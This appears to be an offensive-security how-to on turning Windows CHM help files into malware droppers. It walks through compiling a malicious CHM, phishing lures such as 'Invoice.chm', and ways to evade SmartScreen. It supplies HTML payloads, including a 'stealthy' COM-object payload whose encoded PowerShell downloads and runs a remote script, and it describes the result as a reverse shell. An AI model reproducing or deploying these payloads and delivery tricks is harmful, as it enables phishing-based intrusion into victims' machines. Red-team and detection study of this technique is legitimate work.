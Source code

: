 
# CHM (Compiled HTML Help) Files

**Type:** Malicious Documents & File-Based Delivery  
**Platform:** Windows  
**Prerequisites:** User must open the `.chm` file manually (usually via phishing or USB drop); Windows has built-in CHM file support


---
## Overview

**CHM files** (Compiled HTML Help) are a legacy Microsoft format for help documents. Despite being designed for documentation, they support **embedded HTML, JavaScript, and ActiveX** , including the ability to run **executable code** via scripting.

Attackers weaponize `.chm` files by embedding malicious scripts or links that execute **PowerShell, CMD, or dropper EXEs** when the file is opened. This makes CHM-based initial access attractive


---
## How It Works

- The attacker crafts a `.chm` file with malicious content (e.g., an HTML file calling `mshta.exe` or `powershell.exe`).
- When the target opens the `.chm`, the embedded script is automatically rendered.
- This script executes system commands (often silently), such as downloading or running a second-stage payload.

CHM files are treated as **trusted content** in many systems, especially if stored or opened locally (e.g., `C:\Users\Public\info.chm`).


---
## Prerequisites

**Tools Needed***
- `hh.exe` (Windows Help Viewer, built-in)
- `HTML Help Workshop` (to compile `.chm`)
- Simple web server or payload generator (e.g., `msfvenom`, `python3`, `Netcat`)


---
## Steps to Implement

1. **Create Malicious HTML**

<img src="creating-html-payload.png" >

2. **Compile the HTML into `.chm` Using HTML Help Workshop.** [Download Microsoft’s HTML Help Workshop.](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/htmlhelp/microsoft-html-help-downloads)

**Steps:**

   **1 - Create a `.hhp` project file:**

```
[OPTIONS]
Compatibility=1.1 or later
Compiled file=payload.chm
Default topic=index.html
```

![[creating-hhp-file.png]]

   **2 - open project.hhp in `HTML Help Workshop`**
  ![[opening-project.png]]
   
![[opening-project-hhp.png]]   

   **3 - Add `payload.html` to the project.**
![[adding-html-payload.png]]

![[adding-html-payload-.png]]

![[html-payload-file.png]]

   
   **4 - Compile to payload.chm.**
   
![[compile-to-chm.png]]

![[compiling.png]]


3. **Deliver the `.chm` File**
   - Email it as an attachment with a lure like “Invoice.chm”
   - Drop it on USB or shared drive

4. **Execution**

once the victim open the `.chm` file the embedded script will be rendered by `hh.exe` , resulting in a reverse shell being established.


![[prepare.png]]


![[pwnd.png]]


---
## Payload/Code Snippets

- **malicious HTML payload with embedded JavaScript  ( will trigger windows-security-warning  - not recommended )**
```html
<html>
<head>
  <script type="text/javascript">
    var shell = new ActiveXObject("WScript.Shell");
    shell.Run("calc.exe");
  </script>
</head>
<body>
<h1>Help Document</h1>
<p>This is a sample help document.</p>
</body>
</html>
```

- **malicious HTML payload with embedded VBScript ( will trigger windows-security-warning  - not recommended )**
```html
<html>
<head>
  <script language="VBScript">
    Set objShell = CreateObject("Wscript.Shell")
    objShell.Run "calc.exe"
</script>
</head>
<body>
<h1>Help Document</h1>
<p>This is a sample help document.</p>
</body>
</html>
```

- **stealthy command execution via COM Object. ( recommended )**
```html
<html>
  <head>
    <title>Customer Service</title>
  </head>

  <body>
    <h2 align="center">Customer Service</h2>
    <h3 align="center">Please wait...</h3>

    <!-- Malicious COM object -->
    <object 
      id="shortcut" 
      classid="clsid:52a2aaae-085d-4187-97ea-8c30db990436" 
      width="1" 
      height="1">
      
      <!-- Set the command type -->
      <param name="Command" value="ShortCut">

      <!-- Launch PowerShell with obfuscated payload -->
      <param name="Item1" value=",powershell.exe, -w 1 -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAyADcALgAwAC4AMAAuADEAOgA4ADAAMAAwAC8AcABhAHkAbABvAGEAZAAuAHAAcwAxACcAKQA= ">
      
    </object>

    <!-- Trigger execution -->
    <script>
      shortcut.Click();
    </script>
  </body>
</html>

```



---
## Tips

- Rename `.chm` files to blend in (e.g., `manual.chm` , `HR_policy.chm`)
- CHM files execute locally without firewall triggers
- Combine with LNK or autorun.inf on USB drops
- mshta is a trusted binary (LOLBAS), commonly used with CHM
- Avoid triggering SmartScreen by serving from internal shares or trusted paths


---

## References

- [LOLBAS: mshta](https://lolbas-project.github.io/lolbas/Binaries/Mshta/)
- [Microsoft HTML Help Workshop](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/htmlhelp/microsoft-html-help-downloads)
- [MITRE ATT&CK ID: T1218.001 – Signed Binary Proxy Execution: Compiled HTML File](https://attack.mitre.org/techniques/T1218/001/)
- [Weaponize .chm files with PowerShell — Nishang](https://medium.com/r3d-buck3t/weaponize-chm-files-with-powershell-nishang-c98b93f79f1e)
- [Analyzing a Malicious Compiled HTML Help File Delivering Agent Tesla](https://unit42.paloaltonetworks.com/malicious-compiled-html-help-file-agent-tesla/)

---

**_Author_** : **o-sec**
